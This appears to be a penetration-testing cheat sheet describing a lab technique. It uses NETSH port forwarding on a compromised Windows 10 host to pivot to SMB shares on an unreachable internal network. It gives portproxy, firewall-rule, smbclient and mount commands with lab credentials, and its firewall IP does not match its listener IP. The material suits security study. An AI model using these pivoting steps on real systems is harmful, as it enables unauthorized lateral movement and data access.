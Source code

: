 ## NETSH

Remote Port Forwarding Example

Imagine you have a compromised Windows 10 client that has interfaces in two networks, one of which is inaccessible from the Internet.  You want access to port 445 on a host in that inaccessible network, so you decide to use the intermediate Windows host as a pivot point.

Requirements:

- If you get a SYSTEM level shell, you can use NETSH without worrying about UAC on all modern versions of Windows.  
- The Windows host must have the IP Helper service running 
- It also must have IPVv6 enabled on the interface we want to use.  
- Both of these are enabled by default on Windows OS's.

Execution:

1. Set up the tunnel on the Windows 10 client:

   ```powershell
   netsh interface portproxy add v4tov4 listenport=4455 listenaddress=192.168.216.10 connectport=445 connectaddress=172.16.216.5
   
   # Options
   interface	# Sets the context to 'interface'
   portproxy add v4tov4	# Setups up IPv4 to IPv4 Proxy
   listenport=4455 listenaddress=192.168.216.10	# Sets the proxy listener IP and port
   connectport=445 connectaddress=172.16.216.5	# Sets the IP and port to forward to
   ```

2. Confirm the Windows 10 client is listening on port 4455

   ```powershell
   netstat -anp TCP | find "4455"
   ```

3. Add a Firewall rule to allow port 4455 inbound to the interface:

   ```powershell
   netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.1.223 localport=4455 action=allow
   ```

4. Remember that Samba needs to be configured with a minimum version of SMBV2 due to Win2016's lack of SMBV1 support.

   ```bash
   # Note:  
   vi /etc/samba/smb.conf
   # Add this
   min protocol = SMB2
   ```

5. Attempt to connect to the compromised Win 10 client acting as a proxy:

   ```bash
   smbclient -L 192.168.216.10 --port=4455 --user=Administrator
   ```

   Note:  You may get an error `do_connect: Connection to 192.168.216.10 failed (Error NT_STATUS_IO_TIMEMOUT)`.  This is due to the nature of the proxy service and should not impact your ability to mount the shares.  I didn't get this error when I tried.

6. Verify you can mount a file share

   ```bash
   sudo mkdir /mnt/win2016_share
   sudo mount -t cifs -o port=4455 //192.168.216.10/Data -o username=Administrator,password=lab /mnt/win2016_share
   ls -la /mnt/win2016_share
   cat /mnt/win2016_share/data.txt
   ```

   

